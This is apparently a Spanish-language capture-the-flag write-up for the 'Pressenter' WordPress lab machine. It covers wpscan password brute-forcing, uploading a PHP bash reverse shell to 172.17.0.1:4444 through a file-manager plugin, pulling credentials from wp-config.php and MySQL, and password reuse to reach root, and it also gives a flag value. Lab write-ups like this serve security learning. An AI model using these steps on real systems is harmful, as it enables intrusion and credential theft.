


# Pressenter

*80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))*
En la web vemos que tanto el login como la iniciación del CTF no hacen nada, pero encontramos un about us en el pie de página de la web de registro:
*Find us at pressenter.hl*
Necesitaremos añadir *presenter.hl* al /etc/hosts
Vemos que se trata de un **Wordpress**

Con Gobuster no encontramos nada, asique sacaremos. Pero vemos que si hacemos el gobuster a http://pressenter.hl/, encuentra cosas de wp:
`gobuster dir -u pressenter.hl -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,js,txt`

En la página de /wp-login podemos ver que el usuario pressi sí que existe y NO el de echo

En un texto publicado en la web podemos ver dos usuarios posibles, **pressi** y **echo**
Usamos cupp y wpscan para intentar encontrar una contraseña para ambos
`wpscan --url http://pressenter.hl -U pressi --passwords pressi.txt`
`wpscan --url http://pressenter.hl -U echo --passwords echo.txt`
Descubrimos una versión de wordpress 6.6.1 -> podemos buscar vulnerabilidades
NO encontramos contraseña válida para pressi

Probamos en lugar de para un passlist con cupp, con rockyou
**dumbass** ✔

Encontramos un usuario **hacker** dentro del portal de administracion, pero no es adminsitrador asique no creo que sea relevante

En apartado de Plugins podemos instalar el "administrador de archivos WP" buscando por file, instalándolo y activándolo

Subimos archivo sh3ll.php con la revshell dentro en php
`<?php exec("bash -c 'bash -i >&/dev/tcp/172.17.0.1/4444 0>&1'"); ?>`
**www-data**

## Escalada

Buscamos en directorio -> nada
Buscamos en sudo -l -> nada
Buscamos en -perm -4000 -> nada
Buscamos en procesos -> nada excepto que vemos que existe un usuario mysql
Buscamos en /var/www/pressenter y vemos archivo característico de wordpress **wp-config.php**
Encontramos credenciales:

Nos conectamos al servicio mysql
`mysql -h localhost -u admin -p`
**mysql**

`show databases;`
`use wordpress`
`show tables;`
Vemos un *wp_users* y un *wp_usernames*
`select * from wp_usernames;`
Obtenemos un usuario:contraseña:
**enter: kernellinuxhack**

Accemos
`su enter`
**enter**

En escritorio de enter encontramos un user.txt que contiene:
4a05a7bc45edb56b1f033ca1606e176c

- *(ALL : ALL) NOPASSWD: /usr/bin/cat*
(ALL : ALL) NOPASSWD: /usr/bin/whoami
Probamos a acceder a root con la misma pswd que en enter
**root**
